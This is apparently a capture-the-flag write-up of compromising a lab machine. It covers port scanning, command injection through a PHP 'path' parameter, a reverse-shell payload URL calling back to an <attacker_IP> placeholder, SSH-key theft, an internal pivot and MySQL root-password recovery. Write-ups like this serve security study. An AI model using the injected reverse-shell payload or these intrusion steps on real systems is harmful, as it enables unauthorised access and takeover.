# Recon 
```bash
rustscan -a 10.48.144.224 -- -A

Open 10.48.144.224:22
Open 10.48.144.224:80
Open 10.48.144.224:2222
Open 10.48.144.224:8022

PORT     STATE SERVICE       REASON         VERSION
22/tcp   open  ssh           syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:3e:80:d9:b0:98:fd:7e:09:6d:34:12:f9:15:8a:18 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDNZuuEok1Fj1PzF8NErC0Norql6X1jpgY1lgab4Ic+p22Xim2fsz9G8oxBWQvLHc57LP8oOJkxb4SkJA1bCSvpDXXRXcFZJYyTtDkJuJiLzQYfUSFNlb7uJ3UbtXJmhB+0cioQqmoPNR0PMHkzOt/iKmcXz/zxWpa9KDtwg/DKO7tXbXlwCU75gM9TA/CzpV42X8jLdg3GKDN45ZIUD127SVB+WUTE3NO12RHOWGKEuVrYzhpt/J2FR1othrB4SC4tjB1mOuKOYQB/w20BVDvLCc/U0kwR3bRP9OyuGCcL6KjHTcqhBASBUSMdZERF4kW3oKneFU/ogel3+xDEV9xP
|   256 ec:5f:8a:1d:59:b3:59:2f:49:ef:fb:f4:4a:d0:1d:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP1L2DsLekoih3uch4TYfg20+y0iLFupq1oBqmPpfaXcwPWVSHBSl6VfN99qidxKzOXWH7bC7qNKCLZQOKUUIZo=
|   256 b1:4a:22:dc:7f:60:e4:fc:08:0c:55:4f:e4:15:e0:fa (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINfYJj6Alf9dI+KYygs+hOfPWUWVebXmTM0zvW4khYy0
80/tcp   open  http          syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
2222/tcp open  EtherNetIP-1? syn-ack ttl 62
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
8022/tcp open  ssh           syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13ppa1+obfuscated~focal (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0e:79:ed:25:f0:8a:54:ad:ae:b5:d4:cb:4d:2d:ab:b3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQD3sU20PUNQ8+/hOY2eBtHuwuBnAx3R1iVHPBghh0GldBWjyKHCY/0XiQhLHxZqJpgPZIsw231oLNxOW13BIbZZaxk9T4BjvWDawNmqBH2kFE2V37M3pZcPKkMLhhYx/uLDZfOPWYq+fascIt9FJ9Mw6DASK0YoOXse6A2VBApGVSOGy2qk5fhWHvBpnk8VCXMvEXGYhafSDoOh1l0BnJSwNE3/+tEb70gUaDfoRQCY0d6t03ARYyOPoYkA/n4AqWXQy0RxT7vJL+lyPfanynqjUhgOif/Lz9UJ/2dWFTom98PdfBLfiOA7r4YWF6PhWUKBSBK+YAHE5PQKC6MCpiSlDpq95QkrwXReDvAp+3RK7u8xocuCBbIkL6dEvS8OcONEIl7ukcK9KmdQbFg5wiWkoHOFb6gtWnzDcUbDKdWDAB0Eo8/uQw58TJxzG5a64PzaZxdGlVeYrdNoYq1UjvQzvZgq1Ft1bfHAcfGvWwBMf/njMKXqoAVPQgA+RyeKW2s=
|   256 f3:9c:c5:51:a8:3a:01:99:31:08:01:b9:6b:b8:4d:bd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMXrKAqt8y+QI7CnZcM8Bzbd+aarzIab6suPxMqNHiUhHIokQdU6f1OVxz0QgCjNTZuNPRCez5hGGobjFN6SOuA=
|   256 2d:68:a4:62:6e:b5:b7:b8:dc:1f:bc:12:03:d0:e3:5d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICX7DSbEluGwW0/k6l68P9zonEzBj65gEVsI8S2CyyYV
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X|9.X (93%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/o:google:android:9
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (95%), Linux 5.4 - 5.15 (95%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
```
There are four open ports. Visiting each of them shows nothing.<br/>
But after fuzzing I get `index.php`, `info.php` and `index.html` on port `80`.<br/>
<br/>
Visiting `index.php` I found directory listing and interesting `path` URL variable on source code.<br/>
<br/>
<br/>
And there exist path traversal command-injection vulnerability.<br/>
<br/>
So using this I obtained a reverse shell on the machine.<br/>
`http://<machine_IP>/index.php?path=/home;%20php%20-r%20%27$s=fsockopen(%22<attacker_IP>%22,4444);proc_open(%22sh%22,[$s,$s,$s],$p);%27`
<br/>
There I found a local user mike and an executable file.<br/>
<br/>
While enumerating more I found:<br/>
<br/>
I observed that the file is owned by root and have execute permission.<br/>
<br/>
After executing some commands I found some thing interesting.<br/>
<br/>
Now I can view the `id_rsa` file of mike. But it doesn't allow me to log in that machine via ssh.<br/>
<br/>
So I checked the IPs. Because the hostname was host1. So there might be other hosts.<br/>
<br/>
Downloading the nmap binary I scanned for other host on `172.16.20.0/24`. And discovered another host `172.16.20.6`.<br/>
<br/>
Now using the `id_rsa` from `host1` I logged in as mike in `172.16.20.6`.<br/>
<br/>
There looking at the `/etc/passwd` I found a MySQL server is running.<br/>
<br/>
I logged in the server with password `password`.<br/>
<br/>
Enumerating the server I have obtained the root password.<br/>
<br/>
Using that root password I switched user to root and unzip the zip file with the same password and obtained the flag.<br/>
<br/>